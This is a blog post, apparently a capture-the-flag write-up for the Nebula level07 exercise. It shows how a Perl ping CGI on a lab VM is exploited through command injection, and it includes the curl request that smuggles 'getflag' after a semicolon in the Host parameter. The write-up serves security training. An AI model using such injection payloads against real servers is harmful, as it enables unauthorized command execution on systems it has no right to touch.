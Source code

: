 ```yaml
---
layout: post
title: "Reachable from the web"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 07](http://exploit-exercises.com/nebula/level07) Agenda**: "The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server."
<br />
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; "*It was the Perl's script, the one who swooned over the network flow.*"

<center>
	<img src="/images/2015-03-28-reachable_hosts/208716045eef408eef4fcd07.jpg">
</center>

<br />

As usual, started with target account's home investigation.
{% highlight sh linenos %}
level07@nebula:/home/flag07$ ls -la
.........
-rw-r--r-- 1 root   root    3719 2011-11-20 21:22 thttpd.conf

level07@nebula:/home/flag07$ cat ./thttpd.conf | less

# This file is for thttpd processes created by /etc/init.d/thttpd.
.........
# Specifies an alternate port number to listen on.
port=7007
.........
# Specifies a directory to chdir() to at startup. This is merely a convenience
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07
.........
# Specifies a wildcard pattern for CGI programs, for instance "**.cgi" or
# "/cgi-bin/*". See thttpd(8) for details.
cgipat=**.cgi
.........
{% endhighlight %}

It appears that we have running [thttpd](http://www.acme.com/software/thttpd/thttpd_man.html) server on 7007 port with specified config from flag07 home folder (which in turns will execute all *.cgi scripts from there). 

{% highlight sh linenos %}
level07@nebula:/home/flag07$ ps aux | grep http
flag07 1187 ......... /usr/sbin/thttpd -C /home/flag07/thttpd.conf
flag16 1189 ......... /usr/sbin/thttpd -C /home/flag16/thttpd.conf
{% endhighlight %}

Indeed! And not the only one =).

From "*[index.cgi](https://exploit-exercises.com/nebula/level07/)*" source we can see that it takes value of "*Host*" argument, passes it as input to ping utility and print out the result. So let's make request with [curl](http://linux.die.net/man/1/curl) tool and use some kind of [separator](/ctf, nebula/2015/02/02/arbitrary_program_execution/) to inject the favour "*getflag*" command. Don't forget about [URL encoding](https://en.wikipedia.org/wiki/Percent-encoding).

{% highlight sh linenos %}
$curl --data-urlencode "Host=localhost;getflag" 192.168.1.3:7007/index.cgi
<html><head><title>Ping results</title></head><body><pre>PING localhost 
(127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_req=1 ttl=64 time=17.3 ms
64 bytes from localhost (127.0.0.1): icmp_req=2 ttl=64 time=17.2 ms
64 bytes from localhost (127.0.0.1): icmp_req=3 ttl=64 time=39.0 ms

--- localhost ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2012ms
rtt min/avg/max/mdev = 17.251/24.558/39.073/10.263 ms
You have successfully executed getflag on a target account
{% endhighlight %}

Line #11, indicates the end of destination point. BTW "*192.168.1.3*" is address of Nebula virtual machine in my local network (use [ifconfig](http://linux.die.net/man/8/ifconfig) to find out for your case).